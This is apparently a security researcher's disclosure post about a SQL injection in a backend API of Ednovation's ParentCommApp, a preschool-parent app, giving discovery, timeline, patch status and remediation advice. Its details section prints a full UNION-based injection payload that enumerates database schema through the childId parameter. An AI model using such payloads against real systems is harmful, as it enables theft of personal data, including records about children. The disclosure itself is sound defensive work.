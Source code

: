 ```yaml
---
layout: post
# Possible CVE status: "CVE REQUESTED", "CVE RESERVED", "REPORTED", "FIXED", "FIXED – NO CVE", "NO RESPONSE", "UNPATCHED", "CVE-YYYY-NNNNN"
title: "[CVE REQUESTED] ParentCommApp SQL Injection Backend API"
date: 2025-07-26
cve: "Reported"
status: "Fixing"
categories: [Disclosure]
tags: [cve-requested, CVE, sql-injection, pii-exposure, ednovation, parentcommapp, vulnerability, ios, api]
permalink: /disclosures/parentcommapp-sql-injection-backend-api/
---
```


## Summary

A **SQL injection vulnerability** was identified in a backend API supporting Ednovation's ParentCommApp — a communication platform used by preschools and parents. The vulnerability allows attackers to manipulate request parameters and potentially extract unauthorized records from the database.

> **Ednovation**, headquartered in Singapore, is a leading provider of preschool education services across Asia, has evolved into a chain of more than 60 pre-schools and enrichment centres across Singapore, China and ASEAN.

## Background & Discovery

This issue was discovered while testing the ParentCommApp on iOS, where traffic was intercepted using **Burp Suite**. After logging in and intercepting traffic, it was observed that the API call used to fetch child attendance status did not include any form of validation and accepted unsanitized input — indicating a server-side flaw rather than a client implementation issue.

## Affected Product

- **Vendor**: Ednovation ([https://ednovation.com](https://ednovation.com))
- **App**: ParentCommApp (iOS)
- **Platform**: Backend APIs serving iOS/Android apps
- **Version**: Affected prior to 2022 remediation

## Vulnerability Details

While testing the iOS version of ParentCommApp using **Burp Suite**, an API call responsible for fetching child attendance status was observed to be vulnerable to **SQL injection**.

The vulnerable API accepted a `childId` parameter via POST request body and failed to sanitize the input. Manual testing with SQL payloads like:

```sql
'date=Sun%20Jun%2026%2016%3A19%3A23%20GMT%2B0800%202022&childId=12 UNioN \x0d\x0a  (\x0d\x0a    SELECT 111, 222, 333, 444, 555, 666, 777, 888, 999, 101010,\x0d\x0a      group_concat(a.combine separator \',\'), \x0d\x0a      121212, 131313, 141414   \x0d\x0a    from \x0d\x0a      (\x0d\x0a        SELECT \x0d\x0a          concat(\x0d\x0a            \'\"\', \x0d\x0a            table_name, \x0d\x0a            \'\"\', \x0d\x0a            \':\', \x0d\x0a            \'[\', \x0d\x0a            GROUP_CONCAT(\x0d\x0a              concat(\'\"\', COLUMN_NAME, \'\"\') separator \',\'\x0d\x0a            ), \x0d\x0a            \']\'\x0d\x0a          ) as combine \x0d\x0a        FROM \x0d\x0a          INFORMATION_SCHEMA.COLUMNS \x0d\x0a        WHERE \x0d\x0a          TABLE_SCHEMA = \'dev_XXXX\' \x0d\x0a        GROUP BY \x0d\x0a          TABLE_NAME \x0d\x0a        ORDER BY \x0d\x0a          table_name\x0d\x0a      ) as a\x0d\x0a  )\x0d\x0alimit 1,2#&action=getChildAttendanceStatus'
```

resulted in expanded database output, confirming an **authentication-independent injection flaw**.

## Exploitation Impact

- **Sensitive data disclosure**: Unauthorized access to other child/parent/teacher records
- **Database enumeration**: Potential for data extraction beyond target record

## Timeline

- **2022-07**: Issue discovered and responsibly reported to vendor  
- **2022-07**: Vendor acknowledged and deployed a patch  
- **2025-07**: Disclosure and CVE request initiated  

## Status

- ✅ **Reported**: 2022  
- ✅ **Vendor fixed**: 2022  
- 🚩 **CVE Status**: Pending Assignment  
- 📢 **Public Disclosure**: 2025-07  

## Recommendations

Vendors should validate and sanitize all input parameters server-side. Use parameterized queries and ORM frameworks to prevent injection flaws.
